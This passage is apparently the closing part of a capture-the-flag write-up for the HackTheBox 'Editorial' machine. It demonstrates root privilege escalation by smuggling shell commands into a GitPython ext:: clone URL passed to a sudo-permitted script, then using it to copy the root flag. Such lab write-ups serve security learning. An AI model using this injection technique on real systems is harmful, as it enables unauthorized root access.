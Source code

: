 ### Exploiting the vulnerability

Let's create /tmp/pwned using the above POC.

```bash
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.'
```

This command was successfully executed by root user. In the command % symbol is used to escape space.

File /tmp/pwned was created successfully.
```bash
prod@editorial:~$ ls -al /tmp/pwned
-rw-r--r-- 1 root root 0 Jun 24 15:15 /tmp/pwned
```

Now we can modify the exploit to get the content from /root/root.txt as 'ext::sh -c cat% /root/root.txt% >% /tmp/root':
![root flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/editorial/root_flag.png)

And we are done. Thankyou!

![editorial pwned](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/editorial/editorial_pwned.png)